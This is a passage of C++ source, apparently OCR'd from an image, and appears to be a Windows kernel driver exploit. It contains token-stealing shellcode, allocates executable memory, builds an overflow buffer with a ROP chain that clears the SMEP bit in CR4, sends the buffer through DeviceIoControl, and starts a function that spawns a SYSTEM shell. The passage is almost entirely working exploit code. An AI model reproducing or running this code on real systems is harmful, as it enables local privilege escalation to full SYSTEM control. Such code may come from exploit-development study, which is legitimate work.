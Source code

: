 ```c
        "\x48\x8B\x41\x68"                          // mov rax, [rcx + 68h]     ; Offset from ActiveProcessLinks to Token
        "\x24\xF0"                                  // and al, 0f0h             ; Clear low 4 bits of _EX_FAST_REF structure
        "\x49\x89\x80\x58\x03\x00\x00"              // mov [r8 + 358h], rax     ; Copy SYSTEM token to current process's token
        "\x48\x83\xC4\x40"                          // add rsp, 040h
        "\x48\x31\xF6"                              // xor rsi, rsi             ; Zeroing out rsi register to avoid Crash
        "\x48\x31\xC0"                              // xor rax, rax             ; NTSTATUS Status = STATUS_SUCCESS
        "\xc3";

    LPVOID shellcode_addr = VirtualAlloc(NULL,
        sizeof(shellcode),
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE);

    memcpy(shellcode_addr, shellcode, sizeof(shellcode));

    std::cout << "[+] Shellcode allocated in userland at: 0x" << (ULONG64)shellcode_addr << std::endl;

    BYTE input_buff[2088] = { 0 };

    ULONG64 pop_rcx_offset = kernel_base + 0x146580; // gadget 1
    std::cout << "[+] POP RCX gadget located at: 0x" << pop_rcx_offset << std::endl;
    ULONG64 rcx_value = 0x70678; // value we want placed in cr4
    ULONG64 mov_cr4_offset = kernel_base + 0x3D6431; // gadget 2
    std::cout << "[+] MOV CR4, RCX gadget located at: 0x" << mov_cr4_offset << std::endl;


    memset(input_buff, '\x41', 2056);
    memcpy(input_buff + 2056, (PULONG64)&pop_rcx_offset, 8); // pop rcx
    memcpy(input_buff + 2064, (PULONG64)&rcx_value, 8); // disable SMEP value
    memcpy(input_buff + 2072, (PULONG64)&mov_cr4_offset, 8); // mov cr4, rcx
    memcpy(input_buff + 2080, (PULONG64)&shellcode_addr, 8); // shellcode

    std::cout << "[+] Input buff located at: 0x" << (INT64)&input_buff << std::endl;

    DWORD bytes_ret = 0x0;

    std::cout << "[+] Sending payload..." << std::endl;

    int result = DeviceIoControl(hDevice,
        IO_CODE,
        input_buff,
        sizeof(input_buff),
        NULL,
        0,
        &bytes_ret,
        NULL);

    if (!result) {
        std::cout << "[-] DeviceIoControl failed!" << std::endl;
    }
}

void spawnShell() {
    std::cout << "[+] Spawning nt authority/system shell..." << std::endl;

    PROCESS_INFORMATION pi = { 0 };
    STARTUPINFOA si = { 0 };
```